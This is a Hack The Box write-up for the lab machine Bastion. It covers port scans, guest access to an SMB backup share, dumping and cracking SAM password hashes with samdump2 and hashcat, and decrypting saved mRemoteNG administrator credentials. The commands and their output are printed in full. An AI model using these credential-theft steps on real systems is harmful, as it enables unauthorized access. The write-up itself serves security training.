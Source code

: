 +++
title = "Hack The Box: Bastion"
date = "2019-09-06"
author = ""
tags = ["HTB", "SMB", "SAM", "John", "mRemoteNG"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/bastion/info_card.png"
images = ["/img/bastion/info_card.png"]
+++


# Summary

Bastion was a relatively easy box. There is an smb share is accessible without credentials and inside there is a backup drive that we can mount and access. From the drive we can dump the SAM file and crack it to get login credentials. Once logged in we find mRemoteNG installed and extract its saved passwords to get admin access. 

# Enumeration

I start with this nmap command to quickly find open ports.
```sh
nmap -sS -p- --min-rate=1000 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.23s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Then run a thorough service scan on the discovered ports.

```sh
nmap -sC -sV -p 22,135,139,445,5985,47001 -oA nmap/bastion 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -42m39s, deviation: 1h09m15s, median: -2m40s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-06T13:28:45+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-06 12:28:49
|_  start_date: 2019-09-06 11:58:13

```
## SMB

Based on the open ports the best service to check out first is smb.

```sh
smbmap -H 10.10.10.134 -u ' '

[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
After running smbmap, I discover a share called Backups that I have read and write permissions as a guest user.

Since this is a windows machine I will switch to my windows vm to make my work easier.

{{< image src="/img/bastion/backup_share.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

Contents of note.txt

*Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.*

Going deeper into the WindowsImageBackup folder I found a backup image which is quite big. Downloading the whole file would not be an option as the note.txt suggested. Fortunately I can mount it through the share remotely, this is the reason why I wanted to use a windows vm.

{{< image src="/img/bastion/backup_share_2.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

On mounting it, it appears as Local Disk (D:). After accessing the home directory of user L4mpje and looking through the folders there was no user.txt, it must have been excluded from the backup.

{{< image src="/img/bastion/backup_share_3.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

At this stage I was stuck for a while (I still suck at owning windows) and after some hints in the forum I figured I should look at where credentials are stored locally on windows and how to get them. Simply the equivalent of /etc/shadow or /etc/passwd on linux.

I learnt that I should be looking in C:\windows\system32\config for the SAM and SYSTEM files which I found.

{{< image src="/img/bastion/backup_share_4.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

##### Now to get the credentials!

I pulled the 2 files back to my kali box and using samdump2 I got the user hash.

```sh
samdump2 SYSTEM SAM

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I then cracked the NTLM hash for L4mpje using hashcat and got the password.

```sh
hashcat -m 1000 -a 0 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force

26112010952d963c8dc4217daec986d9:bureaulampje
```
# Exploitation

Now that I have a username and password I can login through ssh.

{{< image src="/img/bastion/bastion_5.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

Now that user is owned, let's try to escalate privileges to admin.

I switched to powershell and started looking at installed programs. mRemoteNG isn't a default windows application so let me look into it and if it can help in privesc.

{{< image src="/img/bastion/bastion_6.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

According to their website:

*mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager.*

I found a metasploit module that claims to extract saved passwords from mRemoteNG. Since I am logged in I don't need metasploit so I looked at the source to see how it extracts the passwords and decrypts them.

The saved passwords are located in AppData in mRemoteNG\confCons.xml. Once I found the file the admin password was there but encrypted.

{{< image src="/img/bastion/bastion_7.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

I was able to find a script on github to decrypt the password.

```sh
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

Password: thXLHM96BeKL0ER2
```
I can finally login as administrator and own system!

{{< image src="/img/bastion/bastion_8.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

# References

- [mremoteng_decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
- [mremote metasploit module](https://vulners.com/metasploit/MSF:POST/WINDOWS/GATHER/CREDENTIALS/MREMOTE/)
